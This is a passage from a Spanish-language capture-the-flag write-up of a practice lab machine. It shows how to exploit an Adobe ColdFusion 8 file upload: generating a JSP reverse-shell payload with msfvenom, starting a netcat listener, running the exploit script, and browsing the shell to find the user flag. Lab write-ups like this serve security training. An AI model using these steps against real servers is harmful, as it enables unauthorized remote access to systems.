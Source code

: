 Solamente tenemos que cambiarlos, eso me indica que este Exploit es usable para **Metasploit**. Pero checa esto:
```bash
os.system(f'msfvenom -p java/jsp_shell_reverse_tcp
```
Está generando un Payload para conectarnos a la máquina de manera remota. Vamos a probar el Exploit, así que vamos a configurarlo por pasos.

* Cambiamos los datos:
```bash
    lhost = 'Tu_IP'
    lport = 443
    rhost = "10.10.10.11"
    rport = 8500
    filename = uuid.uuid4().hex
```

* Levantamos una netcat:
```bash
nc -nvlp 443    
listening on [any] 443 ...
```

* Y activamos el Exploit:
```bash
python Adobe_Exploit.py                                                          
Generating a payload...
Payload size: 1496 bytes
Saved as: f01dfac413bd448a82db8852a0a74b68.jsp
Priting request...
Content-type: multipart/form-data; boundary=0c8478e180f44be7af5362027e35ef54
Content-length: 1697
--0c8478e180f44be7af5362027e35ef54
Content-Disposition: form-data; name="newfile"; filename="f01dfac413bd448a82db8852a0a74b68.txt"
Content-Type: text/plain
...
```

* Tardo bastante, pero ya estamos dentro:
```bash
nc -nvlp 443    
listening on [any] 443 ...
connect to [Tu_IP] from (UNKNOWN) [10.10.10.11] 49408
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
C:\ColdFusion8\runtime\bin>whoami
whoami
arctic\tolis
```

La flag del usuario se encuentra en el directorio **tolis**:
```batch
C:\Users>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 5C03-76A8
 Directory of C:\Users
22/03/2017  10:00 ��    <DIR>          .
22/03/2017  10:00 ��    <DIR>          ..
22/03/2017  09:10 ��    <DIR>          Administrator
14/07/2009  07:57 ��    <DIR>          Public
22/03/2017  10:00 ��    <DIR>          tolis
               0 File(s)              0 bytes
               5 Dir(s)   1.434.054.656 bytes free
```
